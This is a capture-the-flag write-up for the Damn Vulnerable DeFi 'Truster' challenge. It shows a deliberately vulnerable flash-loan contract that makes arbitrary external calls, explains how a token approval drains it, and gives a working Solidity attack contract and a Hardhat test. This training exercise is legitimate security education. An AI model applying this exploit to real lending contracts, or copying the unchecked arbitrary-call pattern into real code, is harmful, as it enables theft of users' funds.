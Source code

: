# 03_Truster

## Challenge

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

You are provided with the code for the flashloan providing pool:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
}
```

## Solution

If we take a look at the testcase, we see that we have to have the pools balance at the end and the pool should not have any money anymore. 

We can achieve this by exploiting that the pool verifies that a loan was payed back by checking if its token balance is the same as before the loan was issued. This doesn't include allowances.

What we can do is give the loan to the pool itself and then call the token.approve() function to approve ourself for spending all the tokens money. Then we return it and the balance is still the same. The problem is that now we are able to spend all the pools money without it checking. We now send all its money to the user and are done. I implemented a small attack contract that does that, as i am not a big hardhat enjoyer:

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./TrusterLenderPool.sol";
import "../DamnValuableToken.sol";

contract Attack_Truster {

    address owner;

    function getEmBoyz(address _pool, address _token) public
    {
        owner = msg.sender;
        DamnValuableToken token = DamnValuableToken(_token);
        TrusterLenderPool pool = TrusterLenderPool(_pool);

        pool.flashLoan(token.balanceOf(_pool), _pool, _token, abi.encodeWithSignature("approve(address,uint256)", address(this), token.balanceOf(_pool)));

        DamnValuableToken(token).transferFrom(_pool, owner, DamnValuableToken(token).balanceOf(_pool));
    }
}
```

We can then call this the same way as in the last challenge:

```js
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */

    const Attack_Truster = await ethers.getContractFactory('Attack_Truster', player);
    attack = await Attack_Truster.deploy();
    await attack.connect(player).getEmBoyz(pool.address, (await pool.token()));
});
```

This way we have solved the chall (in 1 tx).

